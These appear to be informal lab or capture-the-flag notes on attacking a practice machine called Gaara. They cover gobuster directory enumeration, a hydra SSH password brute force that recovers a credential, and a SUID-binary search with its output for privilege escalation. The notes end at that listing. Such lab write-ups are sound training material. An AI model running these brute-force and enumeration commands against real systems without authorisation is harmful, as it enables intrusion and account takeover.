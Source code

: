 I like how bad dirbuster is with it's UI. Not large enough to show the start button.

Reset the vpn connection and now it's running. Used /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt

50 Threads max. Anything more typically breaks connections

  

A search suggests running gobuster. Not my favorite since it requires actual command usage but here it is:

gobuster dir -u http://192.168.240.142 -x txt,php,html --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -o dir.log

  

in the meantime it's worth trying to do a hydra bruteforce on the gaara name since it's the name of the website as well.

  

hydra -l gaara -P /usr/share/wordlists/rockyou.txt 192.168.180.142 ssh

Also I need to keep in mind how many connectiong that the poor server can handle at once between directory discovery and ssh bruteforcing. Reduction of the attack to a sustainable volume is better than a uncapped number with a high failure rate.

  

Time to wait for Hydra to finish bruteforce SSH

Gotem

  

gaara:iloveyou2

I'm in.

Now to check for root privilege escalation via programs with sudo permissions:

find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null

gaara@Gaara:~$ find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null

-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device

-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign

-rwsr-sr-x 1 root root 8008480 Oct 14  2019 /usr/bin/gdb

-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo

-rwsr-sr-x 1 root root 7570720 Dec 24  2018 /usr/bin/gimp-2.10

-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount

-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh

-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn

-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd

-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
